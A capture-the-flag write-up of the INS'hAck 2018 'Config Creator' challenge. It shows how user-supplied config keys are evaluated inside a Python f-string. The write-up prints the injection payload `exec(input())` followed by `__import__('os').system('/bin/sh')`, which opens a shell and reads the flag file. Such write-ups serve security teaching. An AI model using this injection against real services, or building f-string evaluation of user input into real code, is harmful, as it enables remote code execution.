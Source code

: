 # INS'hAck CTF 2018 - Config Creator
>I've just written a small utility to create a config file (which are sooo painful to write by hand, right?).
>
>Care to have a look?
>
>nc config-creator.ctf.insecurity-insa.fr 10000

That's all: no binary, no libc. Let's try to interact with the program.
```
$ nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
```
We are presented with a menu with several options, we can register a new config entry, edit an existing one, etc...this really looks like a typical heap exploitation challenge.

Let's explore the options and see what happens.
```
Choice? 1

Config key? test
Config value? test

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    test = {test};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:

configuration [
    test = test;
]
```
First we create a couple key:value with function `1` and then we can use functions `3` and `4` to access it.

Let's try editing the config entry with function `2`.
```
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 2

Config key? test
Config value? test2

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    test = {test};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:

configuration [
    test = test2;
]
```
Everything as expected. What if we send an empty input?
```
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1

Config key? 
Config value? 

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    test = {test};
     = {};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
f-string: empty expression not allowed (<string>, line 6)
An error occurred, sorry
```
Uh? What's this? After a quick search we can find that this is a Python3 feature called [f-strings](https://docs.python.org/3/reference/lexical_analysis.html#f-strings).

So, why not just try inserting some Python code and see if it is executed?
```
Choice? 1

Config key? exit()
Config value? test

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    exit() = {exit()};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
$ 
```
It seems to work, the connection is closed!

If we play a little bit more with the program, we can see that some characters (like spaces, dots, underscores, quotes, etc...) are filtered out when we input the key, however round parenthesis are allowed and that's more than enough to get a shell: `exec(input())`.
```
$ nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1

Config key? exec(input())  
Config value? 1337

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
__import__('os').system('/bin/sh')
id
uid=1000(config-creator) gid=1000(config-creator) groups=1000(config-creator)
ls
app.py
flag.txt
cat flag.txt
INSA{dont_get_me_wrong_i_love_python36}
```
You can find the source code of the challenge and a python exploit for it [here](https://github.com/ndaprela/CTF/tree/master/2018/INShAck2018/Config_Creator).
